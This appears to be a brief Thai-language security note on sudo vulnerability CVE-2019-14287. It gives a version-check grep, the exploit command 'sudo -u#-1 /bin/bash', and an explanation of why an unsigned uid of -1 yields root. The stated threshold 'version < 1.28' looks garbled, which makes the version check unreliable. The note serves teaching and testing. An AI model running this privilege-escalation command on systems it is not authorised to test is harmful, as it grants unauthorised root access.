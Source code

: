 Check and Test
-------------------------------

## Check sudo version ( CVE-2019-14287 )
```
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```
ถ้าไม่ขึ้นอะไรแสดงว่าไม่อยู่ในช่วงช่วงเวอชั่นที่มีช่องโหว่

แต่ if version < 1.28
มีความเสี่ยงว่าจะมีช่องโหว่ทดสอบโดย
```
sudo -u#-1 /bin/bash
```

```
ช่องโหว่นี้เกิดจากการ handle ค่า uid ที่ส่งเข้ามาไม่ดี
โดยคำสั่งนี้คือการแจ้งขอเปลี่ยนสิทธิ์ในการรัน /bin/bash

เมื่อมีการส่งค่า -1 เข้ามา โดย Program เขียนด้วย C ชนิดตัวแปรที่รับเป็นชนิด uid_t (unsigned int) 
หมายความว่า ถ้าส่งค่าที่น้อยกว่า 0 เข้ามามันจะตีความเป็นค่าที่ไม่มีอยู่จริงของ user id
-1 ใน unsigned int จะได้ค่าเป็น 4294967295
4294967295 นี้ไม่มีแน่ๆในเลข user id
ดังนั้นเมื่อไม่เจอจึง fallback ให้สิทธิ์ root (uid 0 ) แทน
เราจึงทำการยกระดับสิทธิ์ได้โดยไม่ต้องใช้อย่างอื่นเลย
```
